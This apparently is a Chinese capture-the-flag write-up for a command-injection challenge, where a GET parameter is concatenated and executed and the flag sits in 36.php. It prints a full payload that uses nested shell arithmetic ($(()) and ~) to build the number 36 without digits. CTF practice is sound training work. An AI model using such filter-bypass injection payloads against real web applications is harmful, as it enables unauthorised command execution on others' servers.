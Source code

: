 这题会将我们传入的get参数进行拼接后再执行

题目里有个暗示

```
//flag in 36.php
```

也就是说我们要用符号构造出36

我们可以利用linux的$(())构造出36

在linux里面$(())=0，$((~ $(()) ))=-1

其中~符号表示取反，这里0的取反等于－1

也就是我们先将36个-1加起来再取反得到我们需要的36

payload:

```
c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
```

![image-20241128205205756](assets/image-20241128205205756.png)

从而得到flag


